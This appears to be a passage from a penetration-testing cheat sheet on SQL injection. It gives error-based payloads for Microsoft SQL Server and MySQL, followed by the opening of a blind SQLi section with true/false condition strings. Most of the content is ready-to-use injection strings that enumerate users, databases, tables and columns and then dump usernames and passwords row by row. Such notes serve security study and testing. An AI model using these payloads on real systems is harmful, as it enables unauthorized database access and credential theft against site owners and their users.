 # Error Based SQLi

Use `CONVERT` or `CAST` to force an ERROR and see the output of the query on errors logs.

_Example of Microsoft SQL Server:_

```
1', CONVERT(int,SELECT  FROM .)

a',convert(int,(SELECT CURRENT_USER)))--
a',convert(int,(SELECT DB_NAME(0))))--
a',convert(int,(SELECT DB_NAME(1))))--

# SELECT FIRST TABLE
a',convert(int,(SELECT TOP 1 name from DATABASE..sysobjects where xtype='U')))--

# SELECT A N TABLE (OFFSET)
a',convert(int,(SELECT name from DATABASE..sysobjects where xtype='U' ORDER BY name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY )))--

# SELECT A N COLUMN NAME(OFFSET) of TABLE
a',convert(int,(SELECT name from DATABASE..syscolumns WHERE id = (SELECT id FROM DATABASE..sysobjects WHERE name = 'TABLE') ORDER BY name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)))--

# DUMP - repeat it modifyng the OFFSET to retrieve all table entries
a',convert(int,(SELECT username FROM DATABASE..TABLE ORDER BY username OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)))--
a',convert(int,(SELECT password FROM DATABASE..TABLE ORDER BY password OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY)))--
```
_Example of MySQL:_

```
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-- -)
AND updatexml(rand(),concat(CHAR(126),user(),CHAR(126)),null)-- -)
```

```
AND 1=CAST((SELECT example_column FROM example_table) AS int)
```

# Blind SQLi

A SQLi is blind because we don't have access to the error log or any type of output which difficult a lot the process of exploitation.

## Triggering Conditional Responses

We are going to try to distinct the application response to a `TRUE` and `FALSE` query.

```
xyz' AND '1'='1
xyz' AND '1'='2
```
If we can get the difference of these two queries we can use substring to retrieve data.
